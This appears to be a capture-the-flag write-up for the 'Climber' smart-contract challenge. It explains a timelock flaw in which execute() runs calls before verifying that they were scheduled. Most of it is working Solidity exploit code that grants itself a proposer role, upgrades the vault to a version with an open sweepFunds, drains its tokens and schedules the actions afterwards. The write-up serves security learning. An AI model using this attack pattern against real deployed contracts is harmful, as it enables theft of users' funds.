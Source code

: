 ### Climber
The objective of this challenge is:
- Transfer all DVT tokens from `ClimberVault` contract to the attacker.

Because of the way `execute()` function is implemented in `ClimberTimelock` contract, any users can make external calls from `ClimberTimelock` contract. In a single transaction, the challenger can grant `PROPSER_ROLE` to a challenger owned, upgrade the `ClimberVault` contract to change `sweepFunds()` function to allow anyone to withdraw the DVT tokens it owns, and schedule all the forementioned actions including the `schedule()` action.
```
contract ClimberVault2 is Initializable, OwnableUpgradeable, UUPSUpgradeable {
    function sweepFunds(address tokenAddress, address recipient) external {
        IERC20 token = IERC20(tokenAddress);
        require(token.transfer(recipient, token.balanceOf(address(this))), "Transfer failed");
    }
    function _authorizeUpgrade(address newImplementation) internal onlyOwner override {}
}
contract ClimberExploit {
    address[] targets;
    uint256[] values;
    bytes[] dataElements;
    ClimberVault2 vault2 = new ClimberVault2();
    function exploit(address _timelock, address _vault, address _token, address _recipient) external {
        targets.push(_timelock);
        values.push(0);
        dataElements.push(
            abi.encodeWithSignature(
                "grantRole(bytes32,address)",
                keccak256("PROPOSER_ROLE"),
                address(this)
            )
        );
        targets.push(_vault);
        values.push(0);
        dataElements.push(
            abi.encodeWithSignature(
                "upgradeToAndCall(address,bytes)",
                address(vault2),
                abi.encodeWithSignature(
                    "sweepFunds(address,address)",
                    _token,
                    _recipient
                )
            )
        );
        targets.push(address(this));
        values.push(0);
        dataElements.push(
            abi.encodeWithSignature(
                "schedule(address)",
                _timelock
            )
        );
        ClimberTimelock(payable(_timelock)).execute(targets, values, dataElements, bytes32(0));
    }
    function schedule(address _timelock) external {
        ClimberTimelock(payable(_timelock)).schedule(targets, values, dataElements, bytes32(0));
    }
}
```